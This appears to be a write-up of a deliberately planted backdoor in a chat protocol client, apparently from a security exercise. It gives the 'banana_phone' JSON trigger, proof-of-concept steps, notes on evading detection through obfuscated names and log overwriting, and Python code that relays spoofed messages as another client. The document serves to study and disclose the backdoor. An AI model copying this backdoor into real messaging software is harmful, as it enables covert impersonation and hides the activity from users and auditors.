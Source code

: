 ## Description

This backdoor allows any malicious client to impersonate any other client known to the neighborhood. It enables them to send messages as another client, without alerting the impersonated client of this activity.

## Technical Details

When a client receives a private message, it attempts to decrypt and store it to be sent to the frontend. The backdoor expands on this functionality by checking for a JSON data structure within the message. If one is found and includes `type: 'banana_phone'`, it parses the rest of the message:

```
{
    "type": "banana_phone",
    "to": [<list: string: fingerprint>],
    "message": <string: real message>
}
```

- `to`: Contains a list of fingerprints that the 'real' message should be sent to.
- `message`: Contains the real message to be sent.
- The original recipient becomes the new sender.

The function then calls the existing `send_private_chat` message with these new details, as if it came from the client.

Crucially, the recipient never logs or saves the sent message, and explicitly changes the original received message to a random, innocuous message to avoid suspicion.

## Objectives

This backdoor violates several key security principles:

1. Authentication: Allows impersonation of other clients.
2. Integrity: Modifies message content without authorization.
3. Non-repudiation: Makes it impossible to prove who really sent a message.
4. Confidentiality: Allows unauthorized access to private communications.

## Exploitation Method (Proof of Concept)

1. Attacker identifies the fingerprint of the client they want to impersonate (Client 3) and the intended recipient (Client 4).

![Image 3.1](appendix/Image%203.1.png)

<p align="center"><em>Figure 3.1: Attacker selects client 3 to send to, noting down the fingerprint of client 4</em></p>

2. Attacker crafts a message to Client 3 with the following structure:
   ```json
   {
     "type": "banana_phone",
     "to": ["z+jFUevZW966ayOz90LUlPDbup5tUASkiAGsrBqmVgs="],
     "message": "This is client 1 appearing as client 3"
   }
   ```
3. Attacker sends this message to Client 3 using the normal private chat protocol.
4. Client 3's system processes this message, replacing the content with a random innocuous message in its own logs.

![Image 3.2](appendix/Image%203.2.png)

<p align="center"><em>Figure 3.2: The victim client's interface showing a randomly selected harmless message, masking the attacker's covert message manipulation</em></p>

5. Client 3's system then sends the "real" message to Client 4, appearing to come from Client 3.
6. Client 4 receives a message that appears to be from Client 3, but was actually initiated by the attacker (Client 1).

![Image 3.3](appendix/Image%203.3.png)

<p align="center"><em>Figure 3.3: The real message is sent to client 4, appearing to be sent by client 3</em></p>

## Detection Challenges

- Code obfuscation using odd variable names (e.g., 'banana', 'spaghetti', 'pizza', 'carrot') makes the code harder to understand at a glance.
- The backdoor is hidden within real functions used by the protocol, making it blend in with legitimate code.
- The use of a special message type ('banana_phone') is not immediately suspicious and could be mistaken for a feature or Easter egg.
- The original message is replaced with random innocuous content, leaving no trace of the malicious activity in the sender's logs.
- The backdoor leverages existing message sending functions, making its activities appear as normal traffic.

## Code Snippet

```python
async def decrypt_and_store_message(self, data):
    # ... (code for decrypting and initial processing of the message)

    for idx, symm_key_b64 in enumerate(symm_keys_b64):
        try:
            # ... (code for decrypting the message with the current key)

            if my_fingerprint in participants:
                # ... (prepare the message entry)

                try:
                    banana = json.loads(message_text)
                    if banana.get('type') == 'banana_phone':
                        # Generate and store a random innocuous message
                        message_entry['message'] = random.choice(random_messages)
                        self.store_and_log_message(message_entry)

                        # Extract real recipients and message
                        spaghetti = banana.get('to', [])
                        pizza = banana.get('message', '')

                        # Process the recipient list
                        carrot = self.process_recipient_list(spaghetti)

                        # Remove sender and current client from recipients
                        carrot = [
                            fp for fp in carrot
                            if fp != sender_fingerprint and fp != my_fingerprint
                        ]

                        # Send the spoofed message
                        if carrot:
                            await self.send_chat_message(carrot, pizza, true_message=False)
                        else:
                            logger.error("No valid recipients for banana phone message")
                    else:
                        # Normal message handling
                        self.store_and_log_message(message_entry)
                except json.JSONDecodeError:
                    # Handle non-JSON messages
                    self.store_and_log_message(message_entry)
        except Exception as e:
            logger.error(f"Failed to decrypt message with key {idx}: {e}")

    # ... (handle case where message is not intended for this client)
```
